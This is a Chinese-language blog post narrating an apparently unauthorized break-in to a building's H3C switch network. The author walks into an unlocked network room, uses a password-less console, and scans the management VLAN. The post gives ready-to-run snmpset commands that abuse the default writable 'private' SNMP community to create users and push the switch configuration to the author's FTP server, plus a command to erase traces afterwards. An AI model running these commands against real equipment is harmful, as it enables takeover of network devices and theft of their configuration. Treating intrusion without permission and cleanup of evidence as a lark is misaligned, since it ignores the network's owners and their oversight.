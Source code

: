 ```yaml
---
title: SNMP is not only "Monitoring" Protocol - Exploiting H3C SNMP
date: 2024-11-25 14:04:08
description: 本文探讨了 SNMP 的管理功能及其安全隐患，通过实际案例分析了 H3C 设备的配置漏洞，详细记录了利用 SNMP 获取权限的过程，包括配置文件管理、用户创建尝试及技术难点，并提出了相关安全建议。
tags:
  - 网络
  - 网络安全
---
```


Simple Network *Management* Protocol 是一个用于网络监控和管理的协议. 对于不少人而言, 使用 Grafana 等软件配置 SNMP 监控可以对各种维护信息进行方便地可视化; 但是很多时候我们会忘记, SNMP 是用于 "管理" 的协议, 而不只是 "监控". 因此, 当我们打开 SNMP 时, 我们常常忽略可写的默认配置 (`private` community), 而这会带来灾难性的后果. 这篇博客记录了一次近源渗透的过程.

<!-- more -->

### 交换机在网络间, 网络间锁门, 所以交换机串口不用设密码

有句笑话, "内网安全全靠内网". 这句话在交换机管理口上似乎也适用. 起因是某一天, 我发现网络间的门是开着的, 遂跑进去看了一眼. 由于随身携带网串口线, 我就顺势接了进去. 你猜咋的, Console 口没有 Login 口令也没有 Enable 口令, 直接就是 manage 权限. 后来有位神人把他工位上的网口在网络间的那一端插到 Console 里面去了, 于是获取了 *"持久化"* 的管理权限, 还把旁边的口改成了 Trunk permit all.

### 管理 VLAN 暴露

我本来是懒得管这事的, 但是那位神人把自己的机器接进了管理 VLAN, 狠狠 nmap, 发现里面有不少 H3C 的设备, 应该是整栋楼的网都在里面了. 这下不得不玩一玩了.

我们首先分析了从串口拿到的配置文件, 试图从里面找到 SSH 登录的明文口令. 显然, 没有成功. 但也不是没有收获:

```cfg
local-user #redacted# class manage
 password hash $h$6$/g0pzMiowRibMf+V$gCebiPsmL+rx97v9AHzImTVu/dd5OvkUB2vzPqq9igyaeMeN9yi6b0ffhUyElujx4NF4t9eWn9nZ7zi6C/3rWw==
 service-type ssh
 authorization-attribute user-role network-admin
 authorization-attribute user-role network-operator
 password-control length 4
 undo password-control complexity user-name check
```

这里有密码 Hash, 我们尝试了爆破 ([`$h$6$` Hashcat](https://github.com/84634E1A607A/hashcat/tree/switch_6) ), 但是没有成功. (这告诉我们强密码还是很重要的) 虽然这里面有两个让人浮想联翩的指令 (最小密码长度为 4, 且允许密码中含有用户名), 但是爆破的结果确实不尽如人意.

后来发现 SNMP 开启, 故转而尝试攻击 SNMP.

```cfg
 snmp-agent
 snmp-agent local-engineid 800063A280542BDE8D70C200000001
 snmp-agent community write private
 snmp-agent community read public
 snmp-agent community read cipher $c$3$ljPpsn9d1TBzHoeOpGi1eYcWjfU1nQ==
 snmp-agent community write cipher $c$3$MfmpsSsRFIeSziIk4dkOYMkWuufIEB4=
 snmp-agent sys-info version v1 v2c 
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname public v2c
 snmp-agent target-host trap address udp-domain 192.168.xxx.xxx params securityname xxx v2c
```

一开始我还尝试逆向 `$c$3$` crypto, 发现有亿点麻烦; 后来发现这个 `read public` 就是明文, 完全没必要去逆向这个 crypto. 再后来我就懒得管了, 停了不少时间.

### SNMP

这两天突然想起来, SNMP 除了这个只读的 `public` 之外, 还有一个可写的叫 `private` 的 community. 这就不得不试试能不能通过 SNMP 获得全部的权限了.

首先, SNMP 本身就能更改不少东西, 包括但不限于端口的开关, 通过的 VLAN, 等等. 可以说, 有 SNMP 写权限就已经有了 80% 的权限. 但是, 能不能通过 SNMP 拿到 SSH 权限呢?

为了搞清楚 SNMP 在干啥, 首先我们去 H3C 官网拿到 MIB 文件 `20210923_6181667_Comware_MIB-20210918_635750_30003_0` (我就不放上来了). 通过 `snmpwalk -v2c -c public xxx.xxx.xxx.xxx 1.` 等手段可以方便地拿到只读信息. 然后可以对我们感兴趣的部分做研究.

#### SSH?

H3C 对 SSH-MIB 的解释在 [这里](https://www.h3c.com/en/Support/Resource_Center/EN/Switches/Catalog/S9820/S9820/Technical_Documents/Reference_Guides/MIB_Companion/H3C_S9820_8C_MIB_Companion_Rele-17750/13/202403/2070882_294551_0.htm) (应该不会倒闭吧). 对 SSH 的攻击思路是: 新建一个 SSH 用户, 开启这个用户的公钥登录, 把自己的公钥设置进去, 登录; 或者新建一个 SSH 用户并新建一个本地用户, 设置本地用户的密码, 使用 SSH 密码登录.

非常可惜的是, 设置 SSH 公钥登录的逻辑是 新建公钥 -> 给公钥命名 -> 给 SSH 用户 Assign 这个名称. 而我没有找到如何使用 SNMP 创建公钥. 因此, 这条路倒闭了. (如果手头有一台设备, 或许可以对照一下试出来)

而设置密码登录需要新建本地用户. 理论上这个交换机里面已经有两个本地用户了, 但是我从 SNMP 的 USER 表里面读出来的个数是 0. 因此, SNMP 的 USER 表和交换机的 local user 似乎有一些区别. 在使用 [USER-MIB](https://www.h3c.com/en/Support/Resource_Center/HK/Routers/H3C_SR8800-F/H3C_SR8800-F/Technical_Documents/Reference_Guides/MIB_Companion/H3C_SR8800_F_Routers_MIB_R-13029/17/202308/1909461_294551_0.htm) 创建用户之后, SSH 也无法登陆.

这条路到这里似乎就寄了. 但是还是记录一下:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-USER-MIB::hh3cUserName.1 string adnin HH3C-USER-MIB::hh3cUserInfoRowStatus.1 integer 4 HH3C-USER-MIB::hh3cUserPassword.1 string AdminADN1n HH3C-USER-MIB::hh3cAuthMode.1 integer 0
```

#### CFG?

后来我又翻到了这篇文档: [通过SNMP进行配置文件管理举例](https://www.h3c.com/cn/d_200906/636072_30003_0.htm#_Toc231200647)

也就是说, **SNMP 可以用于直接管理交换机的配置文件**. 对应 OID 位于 [HH3C-CONFIG-MAN-MIB::hh3cCfgOperateTable](https://www.h3c.com/cn/d_202202/1547434_30005_0.htm), 其中 `hh3cCfgOperateType` 可以管理交换机配置文件, 且参数可以是 `running2Startup(1) startup2Running(2) running2Net(3) net2Running(4) net2Startup(5) startup2Net(6) running2File(7) file2Running(8)`. 可以看到, 此表支持利用 FTP 把当前配置传到远程主机上, 也可以从远程主机下载配置.

需要注意的是, 此处会使用 FTP 的 ascii mode (这个狗屎玩意已经被很多 FTP 服务器弃用了, 需要在配置里面手动开启).

使用以下命令:

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateType.1 integer 6 \ # 6: startup2Net
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 4 \ # 4: createAndGo, 即创建后立即执行
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateProtocol.1 integer 1 \ # 1: FTP
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateFileName.1 string t/cfg \ # FTP 上传的位置
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerAddress.1 a 192.168.xxx.yyy \ # FTP 服务器的地址
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserName.1 string anonymous \ # FTP 用户
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateUserPassword.1 string anonymous \ # FTP 密码
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateServerPort.1 integer 21 \ # FTP 端口
HH3C-CONFIG-MAN-MIB::hh3cCfgOperateSrvAddrType.1 integer 1 # 1: ipv4
```

在 FTP 服务器配置正确的情况下, 就可以拿到交换机的配置文件了. (怎么改就不用说了吧) 然后记得删掉这一行, 清除痕迹 (不过会有 Log 记录下来)

```sh
snmpset -v2c -c private 192.168.xxx.xxx HH3C-CONFIG-MAN-MIB::hh3cCfgOperateRowStatus.1 integer 6
```

至此, 这整个管理网就算烂完了. 不过在搞完之后发现由于没有配 ACL, 以业务网的交换机地址为网关可以直接访问管理网...... 所以好像也没什么问题......
